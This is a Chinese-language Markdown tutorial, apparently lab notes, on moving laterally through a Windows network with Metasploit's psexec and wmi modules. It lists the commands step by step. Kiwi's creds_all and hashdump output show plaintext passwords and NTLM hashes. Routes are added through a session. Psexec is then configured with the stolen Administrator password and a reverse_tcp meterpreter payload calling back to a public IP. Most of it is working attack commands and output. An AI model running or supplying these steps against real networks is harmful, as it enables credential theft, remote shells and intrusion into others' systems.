










### psexec

> 使用的是 exploit/windows/smb/psexec     

#### 查找方法

1. 进入msf: `msfconsole`
2. 搜索psexec: `search psexec`
3. 使用exploit/windows/smb/psexec ,示例的命令是`use 4`
4. 示例图

#### 使用条件

1. 开启了445和139端口
2. msf可以访问到

#### 使用示例

1. 有一个会话, 192.168.5.118

2. 进入会话, 装在kiwi模块, 命令为`load kiwi`

   > 进入会话`sessions {id}` 退出会话`bg`

3. 提升权限

4. 获取明文密码,使用命令`creds_all`

5. 保存明文密码

   ```
   msv credentials
   ===============
   
   Username       Domain           LM                         NTLM                       SHA1
   --------       ------           --                         ----                       ----
   Administrator  WIN-IE2OKV8R52O  7f089b4adaa02fc65aacd84cd  032e5b1d6af88a6c840870aa3  098e127441969f63d1b0fccb7f
                                   494924f                    d0a915e                    a1a774e9032f63
   
   wdigest credentials
   ===================
   
   Username          Domain           Password
   --------          ------           --------
   (null)            (null)           (null)
   Administrator     WIN-IE2OKV8R52O  wlxY317.
   WIN-IE2OKV8R52O$  WORKGROUP        (null)
   
   tspkg credentials
   =================
   
   Username       Domain           Password
   --------       ------           --------
   Administrator  WIN-IE2OKV8R52O  wlxY317.
   
   kerberos credentials
   ====================
   
   Username          Domain           Password
   --------          ------           --------
   (null)            (null)           (null)
   Administrator     WIN-IE2OKV8R52O  wlxY317.
   win-ie2okv8r52o$  WORKGROUP        (null)
   ```

   

6. 获取密文密码并保存, 命令`hashdump`

   ```
   meterpreter > hashdump 
   Administrator:500:aad3b435b51404eeaad3b435b51404ee:032e5b1d6af88a6c840870aa3d0a915e:::
   doufu:1004:aad3b435b51404eeaad3b435b51404ee:3766c17d09689c438a072a33270cb6f5:::
   Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
   www:1003:aad3b435b51404eeaad3b435b51404ee:94928ad3ef10ed0e062a9bb43e06c3a0:::
   
   ```

   

7. 退出会话, 添加路由, 依次使用如下命令

   ```
   search autoroute
   use 0
   set session 1
   run
   ```

   

8. 退出会话,搜索并进入psexec

9. 设置参数

   ```
   set smbuser Administrator #用户名
   set smbpass wlxY317. #密码
   set rhosts 192.168.5.126 #目标ip
   set payload  windows/x64/meterpreter/reverse_tcp
   set lhost 120.78.76.236 #自己的公网地址
   ```

   

10. 使用命令`run`运行,结果


### wmic

> 使用的是exploit/windows/local/wmi   

#### 进入方法

1. 在vps上输入`msfconsole`
2. 输入命令`search wmi`
3. 使用exploit/windows/local/wmi   
4. 样例，这里使用的命令是`use 16`

#### 使用条件

1. 开放135端口
2. 有一个上线的会话用于横向移动(此处为192.168.5.118)
3. 已知用户名与密码

> 没尝试是否能用hash密码

#### 设置

1. 设置目标, 示例:`set rhost 192.168.5.123`
2. 设置会话, 示例: `set session 1`
3. 设置用户名, 示例: ` set smbuser Administrator`
4. 设置密码, 示例: `set smbpass Admin123.`
5. 运行,使用命令`run`
6. 示例图

操作实例:

1. 添加路由:

   ```
   search autoroute
   use 0
   set session 1
   run
   ```

2. 使用端口扫描查看135端口是否开启:

   ```
   search portscan
   use 5
   set rport 135 139 445
   set lhost 192.168.5.123
   ```

   

   

3. 由第二步结果可知135端口开放, 可以使用wimc模块尝试上线会话.

   ```
   search wmi
   use 16 #exploit/windows/local/wmi  
   set 
   ```

   

### 补充: net use

 [dos命令net教程，net use连接或断开计算机共享资源IPC$空连接_哔哩哔哩_bilibili](https://www.bilibili.com/video/BV1sZ4y1T77o/?vd_source=9a998f3bebd56ada3d6232eb7d8fec81)

[net use命令详解（转） - 捡贝壳的孩子 - 博客园 (cnblogs.com)](https://www.cnblogs.com/mamiyiya777/p/11017875.html)